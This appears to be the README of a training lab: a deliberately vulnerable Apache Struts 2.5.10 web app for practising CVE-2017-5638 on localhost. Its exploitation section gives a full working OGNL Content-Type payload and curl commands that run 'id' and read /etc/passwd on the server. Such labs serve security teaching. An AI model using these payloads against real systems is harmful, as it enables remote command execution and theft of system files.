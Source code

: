 :source-highlighter: pygments

= Apache Struts CVE-2017-5638 exploitation

This simple web application is built with vulnerable Apache Struts 2.5.10 (CVE-2017-5638). It's vulnerable to RCE.

== Starting web application

To start vulnerable web application, execute:
----
mvn jetty:run
----
The application will be accessible on port `8012` by default. You can change it:
----
mvn -Djetty.http.port=<port> jetty:run
----

== Accessing web application

To access the vulnerable web application, open the following link in your browser: http://127.0.0.1:8012/struts-rce. If you changed the default port, modify the link accordingly.

== Exploiting web application

The vulnerability can be exploited to run arbitrary command on server side (RCE). The payload is included in `Content-Type` HTTP header.
The following payload will execute the `id` command:
[source,http]
----
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#p=new java.lang.ProcessBuilder({'/bin/bash','-c','id'})).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
----

The following command will execute `id` command on the server side:
[source,bash]
----
curl -H "Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#p=new java.lang.ProcessBuilder({'/bin/bash','-c','id'})).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}" http://127.0.0.1:8012/struts-rce/index.action
----

The below one will execute `cat /etc/passwd`:
[source,bash]
----
curl -H "Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#p=new java.lang.ProcessBuilder({'/bin/bash','-c','cat /etc/passwd'})).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}" http://127.0.0.1:8012/struts-rce/index.action
----